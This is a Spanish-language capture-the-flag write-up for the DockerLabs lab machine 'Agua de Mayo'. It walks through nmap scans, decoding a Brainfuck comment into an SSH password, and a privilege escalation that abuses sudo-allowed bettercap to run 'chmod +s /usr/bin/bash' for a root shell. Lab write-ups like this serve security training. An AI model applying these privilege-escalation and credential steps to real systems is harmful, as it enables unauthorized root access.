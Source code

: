 #MAQUINA #DOCKERLABS #FACIL 
#BRAINFUCK
<hr>

# RECONOCIMIENTO

Vamos a resolver **Agua de Mayo** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 11:41 CET
Initiating ARP Ping Scan at 11:41
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 11:41, 0.07s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:41
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 11:42, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-11-25 11:41:59 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.71 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 11:42 CET
Nmap scan report for 172.17.0.2
Host is up (0.000022s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.40 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 11:43 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.4.59 (debian)'
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:** Podemos ver un posible directorio interesantes -> **images**

## HTTP (80)
Al revisar la web que hay en el puerto 80 y entrar en el directorio images, vemos un jpg con  el nombre agua_ssh.jpg. 
Intentamos ver si esconde algo,  pero no tiene nada.
Al revisar la pagina de entrada y hacer CTRL + U, podemos ver abajo del todo lo siguiente:

   ```bash

<!--
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
-->
```

Esto es **Brainfuck**. Si lo traducimos online -> **bebeaguaqueessano**

Probamos por **ssh** con:

**usuario : agua**
**contraseña: bebeaguaqueessano**

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
agua@4cd2dee7fa3f:~$ sudo -l
Matching Defaults entries for agua on 4cd2dee7fa3f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User agua may run the following commands on 4cd2dee7fa3f:
    (root) NOPASSWD: /usr/bin/bettercap


```

Vemos **bettercap** con permisos SUDO :

Lo ejecutamos para ver que hace , abrimos el help y vemos la siguiente opción:
   ```bash

! COMMAND : Execute a shell command and print its output.

```

Otorgamos SUID a la bash de la siguiente manera:
   ```bash

172.17.0.0/16 > 172.17.0.2  » ! chmod +s /usr/bin/bash

```

   ```bash
bash-5.2# whoami
root
bash-5.2# 

```
**YA ESTAMOS COMO ROOT.**